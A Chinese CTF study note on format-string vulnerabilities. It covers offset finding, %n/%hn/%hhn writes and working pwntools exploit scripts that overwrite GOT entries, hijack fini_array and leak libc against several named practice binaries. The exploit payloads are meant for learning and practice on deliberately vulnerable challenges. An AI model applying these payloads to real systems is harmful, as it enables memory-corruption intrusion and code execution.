

# 学习

**不要只会`fmtstr_payload`！！！**


找偏移，

```
AAAAAAAA-%p-%p-%p-%p...
```


##

**%n$p**

**%n$s**


##

为什么64位下的fmt输入的比如'AAAAAAAA'会有一个offset？

因为前面打印的是**寄存器**的值。

64位前6个用寄存器传参，RDI,RSI,RDX,RCX,R8,R9；RDI传的是格式化字符串，在这里是用栈传的，

所以打印的前五个是RSI,RDX,RCX,R8,R9的值。


注意这里的reg要取printf那里的


## 注意

**覆盖尽量逐字节覆盖，防止缓冲区不够。**


## 一些特殊场景

[这篇文章](https://www.cnblogs.com/yooos/articles/18120603)中提到的：


**解决方法：**

前提： 逐字节覆盖

采用 **+0x100**的方式。因为我们逐字节取末两位，所以可以+0x100来使得字符数递增。




# 题目

## adword-greeting
通过这道题来学习手写

https://blog.csdn.net/weixin_48066554/article/details/124894730

在main之前还会执行init的函数
main结束后会执行fini_array中的函数


会先执行`_libc_csu_init`里面`_frame_dummy_init_array_entry`数组里的函数


这部分弄明白后看程序代码


一个很明显的格式化字符串漏洞
结合checksec

无PIE，无FULL RELRO
可以改got表

可以选择将`getnline`函数内的`strlen`的got改为system@plt。
但还需要再次执行，可以选择劫持`fini_array`为main的地址。

然后运行程序，测试看偏移：


可以看到这里的偏移不是整的，是有2Byte的偏移。

找fini_array的方法：
```
readelf -S ./pwn | grep fini_array
```

查看原来fini_array的值，和main地址很近，只用覆盖低2Byte


### 任意地址写
用%n写4B的话可能会出错，所以最好用`%num$hn`，2B来覆盖（4位）
然后注意最开始的小偏移，从小到大覆盖。
手写：（记得发sla。。。）
Exp:
```py
system_plt = 0x08048490
strlen_got = 0x08049a54
fini_array = 0x08049934
main_addr  = 0x080485ed

sys_h      = 0x0804
sys_l      = 0x8490
main_l       = 0x85ed

pl = b"a"*2 # offset: 11
pl += p32(strlen_got) # low 2B offset: 12
pl += p32(strlen_got+2) # high 2B offset: 13
pl += p32(fini_array) # low 2B offset: 14
# before we have 0x20 already
num = sys_h - 0x20
pl += ("%" + str(num) + "c%13$hn").encode() # high 2B

num = sys_l - sys_h
pl += ("%" + str(num) + "c%12$hn").encode() # low 2B

num = main_l - sys_l
pl += ("%" + str(num) + "c%14$hn").encode()

print(len(pl))
sla("... ",pl)

sla("... ",b'/bin/sh\x00')

p.interactive()
```

---
用%(num)c来填充(num)Byte

## [MoeCTF 2021]babyfmt
也是继续练习手写。
这题就是一个最简单的任意地址写。
offset为10，写为4很简单
主要是写为0(<1个字的)需要注意，我们的格式化字符串
`%11$n`已经占了5个字符(>1个字)了，所以应该补到8个字符然后偏移+1=12
即
```py
offset = 10
target = 0x0804C044

pl = b''

pl += ("%12$naaa").encode() # 0
pl += p32(target) # offset: 12
print(pl)
sla("name:",pl)
#debug()
sla("passwd:","0")
```

## [HNCTF 2022 WEEK2]fmtstr_level2

深化理解。

64位的格式化字符串。
泄露libc => puts@got -> system@libc
劫持fini_array -> main

注意，64位的修改（手写）：
在64位系统上，使用格式化字符串漏洞来覆盖内存地址时，不同的格式说明符对应不同大小的写入操作。下面是各个格式说明符及其作用：

- %num$hhn：写入一个字节（1B）
- %num$hn：写入两个字节（2B）
- %num$n：写入四个字节（4B）
- %num$lln：写入八个字节（8B）

然后就是对numwritten的深入理解。
我们用的是`%38$n`来泄露Libc，但要对其p64，所以要+'aaa'
这样的话，我们已经输出了14(0x7fc6a1cdf2e8)+3(aaa)=17个，所以用fmtstr_payload的时候要指定`numwritten`选项为0x11

```py
offset = 6
fini = 0x4031f0 # 0x00401180
main = 0x4011B6
puts_got = elf.got['puts']

# 1. ret2libc -> system
pl = b''
pl += b'%38$paaa' # __exit_funcs_lock
pl += fmtstr_payload(7,{fini:main},numbwritten = 0x11)
print(pl)
sla("ID\n",pl)

leak = int(p.recv(14),16)
info_addr("__exit_funcs_lock",leak)
# libcbase: 0x7fc6a1aee000
# leak:     0x7fc6a1cdf2e8
libcbase = leak - (0x7fc6a1cdf2e8-0x7fc6a1aee000)
info_addr("libcbase",libcbase)
system = libcbase + libc.sym['system']

pl = fmtstr_payload(6,{puts_got:system})
sla("ID\n",pl)


p.interactive()
```

```
b'%38$paaa%165c%12$lln%91c%13$hhn%47c%14$hhnaaaaba\xf01@\x00\x00\x00\x00\x00\xf11@\x00\x00\x00\x00\x00\xf21@\x00\x00\x00\x00\x00'
```


手写的话不是很好写。。。
好吧，纯纯傻逼。。。
注意格式！！！
`%(num)c`
`%(num)$hhn`

还有就是要任意写的地址都放最后，因为printf遇到\x00会截断。。。

## [HZNUCTF 2023 preliminary]ffmt
https://www.nssctf.cn/problem/3617


第一次泄露栈地址，第二次将vuln的返回地址改为backdoor的地址。
Exp:
```py
"""
0x7ffff7ffc620
offset : 7
"""

backdoor = 0x401223
pl = b'%6$p'
#debug()
sla("name: \n",pl)
ru(b'0x')
leak = int(rc(12),16)
rsp = leak - 0x100
info_addr("rsp",rsp)


"""
00:0000│ rsp     0x7fffffffdc70 —▸ 0x7fffffffdd70 ◂— 1


pwndbg> stack 30
00:0000│ r10 rsp 0x7fffffffdc40 ◂— 0xa41414141 /* 'AAAA\n' */
01:0008│-018     0x7fffffffdc48 —▸ 0x7fffffffdc80 ◂— 0
02:0010│-010     0x7fffffffdc50 —▸ 0x4010d0 (_start) ◂— endbr64 
03:0018│-008     0x7fffffffdc58 —▸ 0x7fffffffdd70 ◂— 1
04:0020│ rbp     0x7fffffffdc60 —▸ 0x7fffffffdc80 ◂— 0
05:0028│+008     0x7fffffffdc68 —▸ 0x4012d3 (main+107) ◂— mov eax, 0


"""

# offset = 6

target = rsp - 0x8
pl = ("%" + str(35) + "c%8$hhnaaaaaa").encode() + p64(target)
sla("~\n",pl)

p.interactive()
```


## [HNCTF 2022 Week1]fmtstrre

flag的offset找到是38

但是这个偏移处的值是flag的地址，直接`%38$p`只能打印出0x4040c0的地址，

这里可以用**`%38$s`**，再取一次地址，就能够打印出flag字符串的值了。


## [HUBUCTF 2022 新生赛]fmt

[[HUBUCTF 2022 新生赛\]fmt | NSSCTF](https://www.nssctf.cn/problem/2599)

输入的offset是8


所以`s[8]`在偏移为12处，

但不能像上一题一样直接 `%12$s`来读

而要这样：


原因，

所以这里的llx就是打印出栈上的值，当然$p也能打

与上一题区别在于上一题栈上存的是&bss，所以要$s再寻址一次；这题直接存了内容，所以直接读就行。


## [DASCTF X CBCTF 2022九月挑战赛]cyberprinter

劫持 **libc**的got表


可以发现libc是没有开Full RELRO的！！！

题目漏洞，


限制了任意读(p,x)，只剩下任意写。

pwn程序是不能劫持got表的，但是libc的可以。

puts的时候是会调用**strlen的got表**，所以可以劫持strlen的got表为one_gadget。

最初的0x18填满后会泄露一个地址，


可以动调看看与libc的偏移。


然后用 %d泄露输入字符串的偏移


然后 找strlen的got，加上libcbase即为strlen的got表地址

但是

1. 我找不到strlen的got
2. libc泄露出来不对。。。


当然，可能是本地没有patch libc之类的问题。总之学到了这个思路。
